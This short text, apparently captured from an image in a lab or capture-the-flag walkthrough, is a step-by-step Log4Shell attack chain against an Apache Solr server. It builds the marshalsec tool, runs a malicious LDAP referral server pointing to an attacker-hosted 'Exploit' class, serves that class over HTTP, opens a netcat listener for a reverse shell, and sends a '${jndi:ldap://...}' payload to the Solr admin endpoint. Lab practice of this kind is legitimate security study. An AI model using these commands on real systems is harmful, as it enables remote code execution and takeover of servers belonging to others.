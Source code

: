 # build marshalsec for LDAP server
$ git clone https://github.com/mbechler/marshalsec
$ sudo apt install maven
$ cd marshalsec
$ (sudo) mvn clean package -DskipTests

# start LDAP server
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

# compiling Exploit.java
# source / target required for java version on remote victim..?
$ javac Exploit.java -source 8 -target 8

$ php -S 10.18.78.209:8888
# or
$ python3 -m http.server 8888

$ nc -lnvp 1234

# attack server
# HTTP request:
http://10.10.145.151:8983/solr/admin/cores?id=${jndi:ldap://10.18.78.209:1389/Exploit\}
